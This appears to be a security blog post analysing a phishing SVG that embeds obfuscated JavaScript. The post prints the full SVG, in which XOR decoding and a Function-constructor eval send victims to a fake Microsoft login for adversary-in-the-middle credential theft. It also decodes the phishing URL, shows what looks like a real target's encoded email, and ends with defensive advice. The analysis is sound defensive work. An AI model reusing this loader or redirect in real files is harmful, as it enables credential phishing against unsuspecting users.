



In this blog, we’ll dive deep into a **real-world phishing campaign** that leverages an unexpected vector — **SVG images**.

While SVGs are typically used for scalable graphics on websites, they also support embedded **JavaScript**, making them a sneaky way to smuggle malicious code. We’ll analyze one such SVG file sent via a targeted phishing email that executes a **JavaScript-based redirect to a fake Microsoft login page**, enabling an **Adversary-in-the-Middle (AiTM)** attack.

Let’s get started

## How attackers are now using **SVG images with embedded JavaScript**

When we talk about SVG, we're referring to Scalable Vector Graphics — an XML-based format used for vector images that also supports animation.

But here's something interesting: SVGs can also embed HTML elements and JavaScript. That’s why you've probably seen them pop up in bug bounty reports, especially in file upload XSS scenarios.

Today, we're going to explore something even more sneaky — how JavaScript inside an SVG can be used to trick a user into logging in through a fake Microsoft URL.

The SVG file I’ll walk you through was actually sent as part of a targeted phishing email. Let's dive into how it works.

```js
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="250">
<script>
<![CDATA[
w = "dGVzdEB0ZXN0LmNvbQ=="; // I have changed it to have test email

(() => {
    const V = "3656af0dc9c4726f82de61fa", R = "445f5b520e111e080c5a02405e5d584850400103160c46004759571e43077846481b31041519140570104f427b07414a537a4c564a41090c4412445159151d417248434e147c354318140007434d50050e5948540200564d1f680a421d162810141d127a0c411b463543411f577e07061310222b141a443459141e113311174f03632b541c157b561f19463470134d436142171d46045d43481e104d101914077b104f050e5a064818410e";
    const j = (Z, t) => {
        let o = [];
        for (let H = 0; H < Z.length; H += 2) {
            const l = (parseInt(Z[H], 16) << 4) | parseInt(Z[H + 1], 16);
            o.push(String.fromCharCode(l ^ t.charCodeAt(Math.floor(H / 2) % t.length)));
        }
        return o.join('');
    };
    const Q = j(R, V); 
    const S = (() => {
        const B = [70, 117, 110, 99, 116, 105, 111, 110].map(E => String.fromCharCode(E)).join('');
        let A; try { A = new Function('return this')(); } catch (e) { A = new Function('return global')(); }
        return A[B];
    })();
    const I = new WeakMap();
    const c = Function.prototype.toString;
    const W = function() {};
    Object.defineProperty(W, 'toString', {
        value: function() {
            if (!I.has(this)) {
                I.set(this, true);
                Promise.resolve().then(() => {
                    (new S(Q))();
                });
                Object.defineProperty(this, 'toString', {
                    value: c,
                    configurable: true,
                    writable: true
                });
            }
            return c.call(this);
        },
        configurable: true,
        writable: true 
    });
    n = `${W}`;
    n;
})();
]]>
</script>
</svg>
```

This is the full content of the svg that was shared, on the first look you can see this doesn't seem like a normal svg image as we can see different JavaScript functions, weird base64 etc.

## Analyzing the code

If you look at line 3, you'll notice the use of the `<script>` tag — typically used to execute JavaScript inside HTML. Since SVG supports HTML elements, this same functionality applies here too.

Next, you’ll see a `<![CDATA[]]>` section. CDATA is commonly used in XML when you need to include raw HTML or XML code. Everything inside it is treated as character data — so you don't have to worry about escaping characters like < or &.

Now, inside the CDATA block, we spot a Base64-encoded string. When decoded, it reveals a user’s email address — likely part of a targeted attack.

Following that, there are two constants defined: V and R. These are passed to a function j() which returns a result stored in Q.

From the looks of it, the j() function is performing a simple XOR operation, where t is the key and Z is the input string being decrypted or obfuscated.

```js
w = "YmVuLmJhcmxvd0BkYXpuLmNvbQ==";  

(() => {
    const V = "3656af0dc9c4726f82de61fa", 
    R = "445f5b520e111e080c5a02405e5d584850400103160c46004759571e43077846481b31041519140570104f427b07414a537a4c564a41090c4412445159151d417248434e147c354318140007434d50050e5948540200564d1f680a421d162810141d127a0c411b463543411f577e07061310222b141a443459141e113311174f03632b541c157b561f19463470134d436142171d46045d43481e104d101914077b104f050e5a064818410e";
    
    const j = (Z, t) => {
        let o = [];
        for (let H = 0; H < Z.length; H += 2) {
            const l = (parseInt(Z[H], 16) << 4) | parseInt(Z[H + 1], 16);
            o.push(String.fromCharCode(l ^ t.charCodeAt(Math.floor(H / 2) % t.length)));
        }
        return o.join('');
    };
    
    const Q = j(R, V); // P for Payload (decoded code string)
```
Personally, I prefer using the same language as the original script to decode things — in this case, Node.js. Writing a custom decoder might work, but there’s always a chance of missing subtle implementation details, which could lead to incorrect output.

Since the original code is JavaScript, sticking with Node.js ensures we stay true to the logic — especially with things like XOR operations where small variations (like character encoding or type coercion) can make a big difference.

**Note that I was using a virtual machine that was isolated from my host computer**



The code returned

```js
'window.location.href = atob("aH"+"R0"+"cH"+\'M6\'+`Ly`+\'9h\'+\'en\'+\'Jz\'+"MS"+"51"+`am`+`52`+\'Zn\'+\'Nq\'+\'Lm\'+"Vz"+`L1`+"FN"+"Uj"+\'Rw\'+`ZH`+\'M0\'+"QF"+"Rt"+\'bm\'+\'sy\'+"aC"+`8k`)+w;'
```

Let’s put the decoding part aside for now and look at what else is going on in the code.

Next, we see a constant named S. This seems to be doing something a bit more involved

```js
const S = (() => {
        const B = [70, 117, 110, 99, 116, 105, 111, 110].map(E => String.fromCharCode(E)).join('');
        let A; try { A = new Function('return this')(); } catch (e) { A = new Function('return global')(); }
        return A[B];
    })
```

Lets put the same in nodejs and see



Okay B holds the value of `Function` and lets paste the other parts



We can see that this part of the code is essentially returning the global Function constructor, which behaves just like eval. It allows execution of arbitrary code as a string — and yes, that’s as dangerous as it sounds.

Out of curiosity, I tried running the same snippet in the browser console to see what it would return — I was expecting it to give me access to the window object or something similar. But... I hit a wall. The Content Security Policy (CSP) blocked it.

That makes sense though — modern sites often use CSP to block inline scripts and prevent exactly this kind of attack.

So what does this tell us?

The variable S is basically functioning as an eval alternative. It gives the attacker the power to dynamically run code in the global context — completely bypassing normal scoping or restrictions.


Moving further

```js
 const I = new WeakMap();
    
    const c = Function.prototype.toString;
    
    const W = function() {};
    
    Object.defineProperty(W, 'toString', {
        value: function() {
            if (!I.has(this)) {
                I.set(this, true);
                Promise.resolve().then(() => {
                    (new S(Q))();
                });
                Object.defineProperty(this, 'toString', {
                    value: c,
                    configurable: true,
                    writable: true
                });
            }
            return c.call(this);
        },
        configurable: true,
        writable: true 
    });
    n = `${W}`;
    n;
})
```

The code sets up a WeakMap, which works like a dictionary for key-value pairs (with keys being objects).

- `C` stores the toString function.

- `W` starts as an empty function.

The code then checks if the WeakMap already has a specific key. If not, it runs `S(Q)` — where:

- `S` is our custom eval

- `Q` is the XOR-decoded payload

After execution, W is updated to C (i.e., toString), and finally:

```js
n = `${W}`;
```

This line stringifies the function — a neat trick to trigger toString() and possibly execute

So now we are only left with Q which have

```js
'window.location.href = atob("aH"+"R0"+"cH"+\'M6\'+`Ly`+\'9h\'+\'en\'+\'Jz\'+"MS"+"51"+`am`+`52`+\'Zn\'+\'Nq\'+\'Lm\'+"Vz"+`L1`+"FN"+"Uj"+\'Rw\'+`ZH`+\'M0\'+"QF"+"Rt"+\'bm\'+\'sy\'+"aC"+`8k`)+w;
```

So if we clean up

`atob` is like base64 -d for javascript, so it decodes the string and append `w` to it which is another base64 and stores it in `window.location.href`, so I used cyberchef for this and here is the recipe

<a href="https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'%22'%7D,'',true,false,true,false)Find_/_Replace(%7B'option':'Simple%20string','string':'%2B'%7D,'',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'%5C''%7D,'',true,false,true,false)Find_/_Replace(%7B'option':'Simple%20string','string':'%5C%5C'%7D,'',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'%60'%7D,'',true,false,true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=ImFIIisiUjAiKyJjSCIrXCdNNlwnK2BMeWArXCc5aFwnK1wnZW5cJytcJ0p6XCcrIk1TIisiNTEiK2BhbWArYDUyYCtcJ1puXCcrXCdOcVwnK1wnTG1cJysiVnoiK2BMMWArIkZOIisiVWoiK1wnUndcJytgWkhgK1wnTTBcJysiUUYiKyJSdCIrXCdibVwnK1wnc3lcJysiYUMiK2A4a2A&ieol=CRLF&oeol=CRLF" target="_blank">
🔗 View CyberChef Recipe
</a>

and it return the url - https://azrs1.ujnvfsj.es/QMR4pds4@Tmnk2h/$

At the time I was analyzing the SVG, the phishing site itself wasn’t accessible. So I looked it up online, and found that someone had already submitted it to ANY.RUN. According to the analysis, the payload redirects to a Microsoft login page, confirming that this was likely part of an AiTM (Adversary-in-the-Middle) phishing campaign.

<a href = "https://any.run/report/90b5e3624289e783a37823d0d0ccd167e27e6f4a0a8069a38d60def731154b56/7e8d6c48-5730-43d1-b357-d0d037b43092" target="_blank">
🔗 Anyrun Report
</a>

The code was cleverly written — dynamically constructing and executing the payload using the Function constructor. It’s a clean and stealthy approach to running obfuscated JavaScript.

But here’s a thought: what else could an attacker do with this?

Since we’ve already confirmed JavaScript execution within the SVG, an attacker could go beyond simple login redirection. They could use JScript (a Windows-native JavaScript-like language) to stage further attacks, like downloading and executing a malware payload directly on the victim’s machine.

## Conclusion

This SVG-based phishing attack highlights how creative and stealthy modern adversaries have become — blending obfuscation, JavaScript tricks, and redirection to bypass traditional defenses and launch AiTM (Adversary-in-the-Middle) attacks.

To defend against these types of threats, consider the following security best practices:

- Email Gateway Protections:
Ensure your email gateway enforces proper policies like SPF, DKIM, and DMARC to detect spoofed or suspicious senders.

- Conditional Access & Managed Devices (Access Control):
Enforce conditional access policies that allow logins only from managed, compliant devices — reducing the impact of session hijacking via AiTM phishing.

- Canary Tokens on CSS:
Embed canary tokens (e.g., in your login page’s CSS) to get alerted if someone clones your site for phishing.

- Endpoint Detection & Response (EDR):
Deploy a modern EDR solution capable of detecting script-based payloads, unusual browser behavior, and post-exploitation activity on the endpoint.

Attacks like these prove that security isn't just about detecting malicious files — it's also about understanding how legitimate features (like SVGs) can be abused. Stay vigilant, stay curious.

